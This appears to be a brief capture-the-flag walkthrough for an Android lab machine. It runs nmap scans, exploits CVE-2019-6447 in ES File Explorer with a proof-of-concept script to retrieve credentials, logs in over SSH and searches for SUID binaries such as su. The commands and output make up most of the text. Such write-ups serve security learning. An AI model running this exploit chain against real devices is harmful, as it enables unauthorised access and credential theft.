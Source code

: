 OS: Android
IP: 10.10.10.247

###Skills learned:
ssh port forwarding
Andriod OS + tools

###Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
2222 SimplSSH
5555 Andriod Debug bridge
42135 ES File explorer
59777 Bukkit JSONAPI (This is the vulnerability - mislabeled59777)
44233 fingerprint-strings

###Search
Yields CVE-2019-6447
https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
https://www.exploit-db.com/exploits/50070

###Step 1
python3 poc.py ${cmd} ${IP} 
python3 poc.py ${cmd} ${IP} $dir/$.jpg
[+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
${IP}:59777/$dir/$.jpg

Revealing UN && PW:

###Step 2
ssh -p 2222 $UN@${IP} 
${PW}

###Info gathering
:/whoami
u0_a76
:/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
:/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 
